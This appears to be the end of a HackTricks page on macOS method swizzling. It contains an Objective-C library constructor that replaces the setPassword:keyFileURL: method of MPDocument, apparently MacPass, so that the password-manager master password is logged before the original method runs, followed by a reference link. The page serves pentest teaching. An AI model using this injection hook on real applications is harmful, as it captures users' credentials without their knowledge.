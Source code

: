```objectivec
    // Function that will log the password and call the original setPassword(pass, file_path) method
    NSLog(@"[+] Password is: %@", password);

    // After logging the password call the original method so nothing breaks.
    return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

// Library constructor to execute
__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
    // Get the real method address to not lose it
    Class classMPDocument = NSClassFromString(@"MPDocument");
    Method real_Method = class_getInstanceMethod(classMPDocument, @selector(setPassword:keyFileURL:));

    // Make the original method setPassword call the fake implementation one
    IMP fake_IMP = (IMP)custom_setPassword;
    real_setPassword = method_setImplementation(real_Method, fake_IMP);
}
```

## References

- [https://nshipster.com/method-swizzling/](https://nshipster.com/method-swizzling/)

{{#include ../../../banners/hacktricks-training.md}}



